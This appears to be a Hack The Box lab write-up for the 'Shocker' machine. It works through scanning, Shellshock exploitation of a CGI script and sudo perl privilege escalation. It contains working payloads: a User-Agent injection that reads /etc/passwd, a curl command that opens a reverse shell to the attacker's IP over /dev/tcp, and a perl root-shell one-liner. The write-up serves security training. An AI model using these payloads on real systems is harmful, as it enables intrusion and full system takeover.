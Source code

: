 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy,sudo,shellshock]
layout: post
categories: HackTheBox, OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/108>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/3.png)<br/>
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.